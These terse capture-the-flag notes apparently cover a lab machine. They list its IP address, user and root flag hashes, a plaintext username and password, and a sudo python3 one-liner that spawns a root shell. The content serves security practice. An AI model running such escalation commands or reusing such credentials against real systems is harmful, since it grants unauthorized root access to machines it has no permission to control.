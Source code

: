 ## IP
10.1.2.127

## User Flag
75821632acd02b647243d6f0c5ee633a

miko : UE5b4*k%$dRv%MqHsY^K#
## Root Flag
473660a67971c35ea2d1fe811120fe87

sudo python3 -c 'import os; os.system("/bin/sh")'